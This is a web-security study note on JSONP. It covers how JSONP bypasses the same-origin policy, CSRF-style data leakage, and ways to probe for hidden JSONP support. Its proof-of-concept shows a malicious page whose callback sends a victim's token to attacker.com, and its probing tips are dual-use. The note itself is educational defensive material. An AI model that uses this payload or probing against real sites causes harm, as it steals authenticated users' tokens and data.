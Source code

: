 >[!info] Pre-requisites:
>- [Cross-origin resource sharing (CORS)](Cross-origin%20resource%20sharing%20(CORS).md)
>- [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

# JSON with Padding (JSONP)

>[!question] What is JSONP?
>Is a historical [JavaScript](../Dev,%20scripting%20&%20OS/JavaScript%20&%20NodeJS.md) technique for requesting JSON data by loading a `<script>` element, enabling sharing of data across domains **bypassing** the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md)

By default, the same origin policy prevents reading JSON cross site. JSONP is a little bit of a hack: it wraps JSON data in a JavaScript function call (previously defined in the original site). This makes it possible to read the JSON cross-site, by including the JSONP resource as a script.

JSON data to read: 
```json
{"name":"0xbro"}
```

JSONP data: 
```json
somefunction({"name":"0xbro"})
```

Reading the JSON cross site is possible by doing `<script src="https://my.webapp/data.jsonp">` where `somefunction` has already been defined in the source code:

```html
<script> 
	function somefunction(data) { 
		// The data variable will contain the JSON data. 
	}
</script>
<script src="https://my.webapp/data.jsonp">
```

Sometimes it is used a more dynamic approach, where the application requesting the data provides a parameter (usually `callback`) used to create the JSONP data:
```html
<script> 
	function parseResponse(data) { 
		// The data variable will contain the JSON data. 
	}
</script>
<script src="https://my.webapp/data?callback=parseResponse">

// JSONP result
parseResponse({"Name": "Clem", "Id": 1234, "Rank": 7});
```
# JSONP vulnerabilities

JSONP makes it possible to access data from another website in a [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md)-like style attack:
1. The attacker’s site includes the JSONP URL as a script. 
2. The browser performs the request, and sends cookies along if the user is authenticated. 
3. The JSONP will return the data for the authenticated user, and the attacker’s site can read that.

## Cross-site Request Forgery & Data Leakage

Naive deployments of JSONP are subject to [Cross-Site Request Forgery (CSRF)](Cross-Site%20Request%20Forgery%20(CSRF).md) attacks. Because the HTML `<script>` element does not respect the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md) in web browser implementations, a malicious page can request and obtain JSON data belonging to another site. This will allow the JSON-encoded data to be evaluated in the context of the malicious page, possibly divulging passwords or other sensitive data if the user is currently logged into the other site.

Application JSONP endpoint:
```http
GET /api/getUserToken HTTP/1.1
Cookie: sessid=asd

get({"token":"supersecret-token"})
```

Malicious page redirecting user traffic to the JSONP endpoint and extracting the corresponding data:

```html
<script>
function get(data){
	fetch('https://attacker.com/?data='+JSON.stringify(data);
}
</script>
<script src='https://vulnerable.com/api/getUserToken'></script>
```

Other similar attacks and bypasses can be found below:
- Object method call
- Content-Type and X-Content-Type-Options bypass

```cardlink
url: https://securitycafe.ro/2017/01/18/practical-jsonp-injection/
title: "Practical JSONP Injection"
description: "JSONP injection is a lesser known but quite widespread and dangerous vulnerability and it surfaced in the last years due to the high rate of adoption of JSON, web APIs and the urging need for cross…"
host: securitycafe.ro
favicon: https://secure.gravatar.com/blavatar/c798a440ec703a17d8eda6a25b9dac06fa8162164e7e563dbc832069a934ce2b?s=32
image: https://kpmgsecurity.files.wordpress.com/2017/01/specified-callback-code.png
```

## Untrusted third-party code

Including script elements from remote servers allows the remote servers to inject _any_ content into a website. If the remote servers have vulnerabilities that allow JavaScript injection, the page served from the original server is exposed to an increased risk. If an attacker can inject any JavaScript into the original web page, then that code can retrieve additional JavaScript from any domain [^3rd-party]

[^3rd-party]: [Untrusted third-party code](https://en.wikipedia.org/wiki/JSONP#:~:text=%5Bedit%5D-,Untrusted%20third%2Dparty%20code,-%5Bedit%5D), wikipedia.org

## Callback name manipulation and reflected file download attack

[SMHTahsin33 - Riding the Waves of API Versioning Unmasking a Stored XSS Vulnerability, CSP Bypass Using YouTube OEmbed](../../Readwise/Articles/SMHTahsin33%20-%20Riding%20the%20Waves%20of%20API%20Versioning%20Unmasking%20a%20Stored%20XSS%20Vulnerability,%20CSP%20Bypass%20Using%20YouTube%20OEmbed.md)

# Detect hidden attack surface

Sometimes, JSONP is not used by the site but the API still supports it. To check an endpoint for JSONP support, try this:

- Add a callback parameter to a JSON URL, by appending `?callback=something` to the URL.
- When a format type is provided, change it to JSONP. Change `?format=json` to `?format=jsonp`

>[!example]
> Original site: https://demo.sjoerdlangkemper.nl/jsonp.php
>
>```json
{"hello":"world","number":8024046285436083725,"token":"4db7c9cc0bb2c73e10f543180dae83fd65fb4569b1a3cd9df62c1a33dfc72f75"}
>```
>Hidden supported parameters: https://demo.sjoerdlangkemper.nl/jsonp.php?format=jsonp&callback=pwned
>```json
>pwned({"hello":"world","number":2969561363119907216,"token":"4db7c9cc0bb2c73e10f543180dae83fd65fb4569b1a3cd9df62c1a33dfc72f75"})
>```


